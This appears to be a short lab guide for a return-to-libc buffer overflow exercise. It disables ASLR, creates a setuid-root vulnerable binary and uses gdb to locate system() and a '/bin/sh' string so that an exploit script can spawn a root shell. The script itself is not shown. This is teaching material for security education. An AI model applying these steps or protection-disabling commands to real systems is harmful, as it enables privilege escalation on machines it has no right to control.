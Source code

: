 **Setup**
```bash
# DISABLE ASLR!
sudo sysctl -w kernel.randomize_va_space=0
# LINK TO SHELL THAT DOESN'T DROP PRIVILEGES FOR SETUID PROGRAMS
sudo ln -sf /bin/zsh /bin/sh
# ENABLE NON-EXECUTABLE STACK
gcc -fno-stack-protector -z noexecstack -o stack stack.c
# ROOT-OWNED SETUID PROGRAM
sudo chown root stack
sudo chmod 4755 stack
```

**Task A: Find address of system()**

```bash
gdb -q stack  # -q starts gdb in quiet mode
#Reading symbols from stack...(no debugging symbols found)…done.
gdb-peda$ b main  # run the program to get libc loaded into memory
gdb-peda$ run  # run the program to get libc loaded into memory
gdb-peda$ p system
gdb-peda$ p exit
gdb-peda$ quit
```

**Task B: Find the address of the “/bin/sh” string**

```bash
export MYSHELL="/bin/sh"
gcc -o myenv envaddr.c # truncate program name to 5 letters, like "stack"
$ ./myenv
  Value:   /bin/sh
  Address: bffffef8
```

**Task C: Construct arguments for system()**

Update addresses in `libc_exploit.py` based on Tasks A and B,
and what we know about about function prologues and epilogues.
_(i.e., we need to know where on the stack we should put the argument to `system`,
  so that when we return to `system`, it will run our desired command.)_

When you think you've got the addresses/offset correct, run:

```bash
chmod +x libc_exploit.py # only need to run this if this file isn't already executable.
libc_exploit.py
./stack
```







# Return-Oriented Programming
